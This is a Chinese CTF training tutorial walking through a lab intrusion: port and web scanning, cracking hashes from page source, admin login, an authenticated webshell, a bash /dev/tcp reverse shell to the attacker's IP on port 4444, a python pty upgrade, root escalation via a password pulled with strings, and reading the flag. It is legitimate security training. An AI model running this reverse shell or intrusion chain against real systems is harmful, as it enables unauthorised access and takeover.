# CTF最强战队蓝莲花内部培训教程：P21：22.命令执行使用集成工具测试 🛠️

在本节课中，我们将学习命令执行漏洞的实战利用流程。我们将从一个靶场环境出发，通过信息收集、漏洞发现、权限获取到最终提权，完整地演示如何利用命令执行漏洞获取系统最高权限并找到Flag值。

## 命令执行漏洞概述



上一节我们介绍了命令执行的基本概念，本节中我们来看看如何在实际环境中发现和利用它。



命令执行漏洞是这样产生的：当应用需要调用一些外部程序去处理内容的情况下，就会用到一些执行系统命令的函数。例如在PHP语言中的 `system()`、`exec()`、`shell_exec()` 等。

当用户可以控制命令执行函数中的参数时，就可以注入恶意系统命令到正常的命令中，造成命令执行攻击。在调用这些函数执行系统命令时，如果没有对用户的输入进行严格的过滤，那么用户输入将作为系统命令参数拼接到命令行中，最终导致命令执行漏洞。

## 实验环境搭建

以下是本次实验的环境配置：

*   **攻击机**：Kali Linux，IP地址为 `192.168.253.12`。
*   **靶场机器**：Linux系统，IP地址为 `192.168.253.18`。

在CTF比赛中，我们的核心目标是获取靶场机器上的Flag值。所有测试步骤都应围绕此目标展开。

## 第一步：信息探测与收集









在之前的课程中，我们使用了许多命令行工具进行信息探测。本节我们将使用一个更高级的集成化图形工具——Sparta来进行综合探测。它可以调用Nmap、Nikto等多种命令行工具，并将结果集中展示。





首先，我们需要确认与靶机的网络连通性。在Kali Linux终端中执行：
```bash
ping 192.168.253.18
```
收到ICMP响应回复，证明网络连通。





接下来，打开Sparta集成探测工具：
```bash
sparta
```
在Sparta界面中，将靶机IP `192.168.253.18` 添加到扫描范围。工具会自动调用Nmap进行端口扫描，同时使用Nikto进行Web敏感信息探测。

扫描完成后，我们分析结果。发现靶机开放了以下关键端口：
*   **23端口**：Telnet服务。
*   **80端口**：HTTP服务。
*   **8080端口**：HTTP服务，版本信息显示使用了 `Python 2.7.11` 和 `Django` 框架。





## 第二步：深入Web应用探测

我们对80端口进行深入分析。在Sparta中右键点击80端口，选择在浏览器中打开。访问首页后，使用右键菜单中的“WhatWeb”扫描功能，确认站点使用Python Django框架开发。

同时，Sparta调用的Nikto扫描结果显示了一些重要信息：
*   站点根目录下存在一个名为 `dev` 的敏感目录。
*   站点根目录下存在一个名为 `admin` 的目录，这通常是后台管理入口。







以下是需要手动验证的敏感路径：

*   **访问 `/admin/` 目录**：打开浏览器，输入 `http://192.168.253.18/admin/`，发现这是一个后台登录界面，需要用户名和密码。
*   **访问 `/dev/` 目录**：输入 `http://192.168.253.18/dev/`，发现一个页面，其中包含一个指向 `webshell` 的链接。点击该链接，提示需要服务器认证才能使用。

## 第三步：寻找突破口——源代码与哈希破解

面对登录壁垒，我们尝试从页面源代码中寻找敏感信息。分别查看网站首页和 `/admin/` 登录页面的源代码，未发现明显漏洞或注释信息。



但在 `/dev/` 页面的源代码中，我们发现了多行看似无意义的哈希值。这些很可能是隐藏的凭证信息。我们将这些哈希值复制保存到本地文件 `hash.txt` 中。



接下来，使用在线哈希破解网站（如 `https://crackstation.net/`）对这些哈希值进行破解。将哈希值粘贴到网站，输入验证码后开始破解。破解结果显示，其中两个哈希值对应的明文分别是 `bob` 和 `dog`。

## 第四步：登录系统与漏洞扫描

获得凭证后，我们尝试登录。返回 `/admin/` 登录页面，使用用户名 `nick`（从页面源代码中发现）和密码 `dog` 进行登录，成功进入后台管理系统。

进入后台后，我们使用专业漏洞扫描器AWVS对站点进行深度扫描。将目标地址 `http://192.168.253.18` 添加到AWVS中，执行全面扫描。

扫描完成后，AWVS报告了一些中低危漏洞，如敏感目录暴露、密码明文传输等，但未发现可直接获取权限的高危漏洞。这提醒我们：自动化工具并非万能，尤其对于需要认证的后台功能，扫描器可能无法触及。





## 第五步：利用已认证会话访问WebShell





由于我们已经以 `nick` 用户身份登录，浏览器中保存了会话Cookie。此时，我们再次访问之前需要认证的 `/dev/` 目录下的 `webshell` 链接。



这次成功打开了WebShell界面。该界面允许用户执行一些受限的系统命令。我们尝试执行 `id` 和 `whoami` 等命令，以确认当前权限。



## 第六步：建立反向Shell与提权





为了获得一个更完整的交互式Shell，我们计划让靶机反向连接到我们的攻击机。

1.  **在攻击机（Kali）上开启监听**：打开终端，执行以下命令监听4444端口。
    ```bash
    nc -nlvp 4444
    ```
2.  **在WebShell中执行反弹命令**：在WebShell界面中，输入以下命令（假设攻击机IP为 `192.168.253.12`）。
    ```bash
    bash -c ‘bash -i >& /dev/tcp/192.168.253.12/4444 0>&1’
    ```
3.  **升级Shell**：在攻击机的nc终端收到连接后，获得的Shell功能不全。输入以下命令将其升级为完全交互式的TTY。
    ```python
    python -c ‘import pty; pty.spawn(“/bin/bash”)’
    ```
    现在，我们获得了 `nick` 用户的Shell。使用 `id` 命令查看，发现当前不是root权限。

## 第七步：权限提升（Privilege Escalation）

我们需要在系统内寻找提权机会。首先进行常规信息收集：
```bash
ls -la /home/
```
发现存在用户目录 `/home/admin`。进入该目录并查看所有文件（包括隐藏文件）：
```bash
cd /home/admin
ls -alh
```
发现一个隐藏目录 `.admin_dir`，进入后看到两个文件：`note.txt` 和 `customApp`。

查看 `note.txt`，这是一个说明文件，提示 `customApp` 与获取root权限有关。使用 `strings` 命令分析 `customApp` 二进制文件中的可读字符串：
```bash
strings customApp
```
在输出信息中，发现一段提示性文字，经过简单处理（如去掉特定字符“H”）后，可以组合成一段疑似密码的字符串。



尝试使用此密码切换到root用户：
```bash
sudo su
```
输入破解得到的密码，成功获得root权限。使用 `id` 命令验证，用户ID为0，确认是root。





## 第八步：获取Flag与总结



在CTF比赛中，获得root权限后，最后一步就是寻找Flag。Flag通常存放在根目录或特定用户目录下。我们进行查找：
```bash
find / -name “*flag*” 2>/dev/null
cat /root/flag.txt
```
成功读取Flag文件内容。

**本节课总结**：
我们一起学习了命令执行漏洞的完整利用链：
1.  **信息收集**：使用Sparta等集成工具进行端口扫描和Web探测。
2.  **漏洞发现**：通过分析页面源代码、破解哈希值获取后台凭证。
3.  **漏洞利用**：登录后台，利用已认证会话访问功能点（如WebShell）。
4.  **建立控制**：通过WebShell执行命令，建立反向Shell连接。
5.  **权限提升**：在系统内部进行信息收集，分析敏感文件（如使用 `strings` 命令），找到提权方法（如利用sudo密码）。
6.  **达成目标**：获取root权限，找到并读取Flag文件。



在实际CTF比赛或安全评估中，命令执行漏洞往往伴随着各种过滤和限制，需要灵活运用编码、拼接、通配符等技巧进行绕过。本节课提供了一个清晰的基础实战框架。